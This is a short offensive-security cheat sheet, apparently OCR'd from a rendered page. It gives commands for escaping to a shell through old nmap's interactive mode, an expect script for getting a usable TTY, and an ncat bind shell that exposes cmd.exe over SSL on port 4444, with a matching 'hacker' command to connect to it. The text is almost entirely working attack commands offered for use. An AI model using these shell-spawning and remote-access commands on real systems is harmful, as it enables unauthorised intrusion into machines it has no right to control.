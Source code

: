 ## old nmap

```
nmap --interactive
nmap> !sh
```

## expect to get tty
```
$ cat sh.exp
#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact

```





# SSL  encrypted  connection  
---
allow  only  Alice’s  IP  (10.0.0.4)  to  connect  to  it:  

* target:
 ```
C:\Users\offsec>ncat -‐exec  cmd.exe -‐allow   10.0.0.4	--‐vnl  4444 -‐ssl
```

* hacker:
```
ncat -v 10.0.0.22 4444 --ssl
```
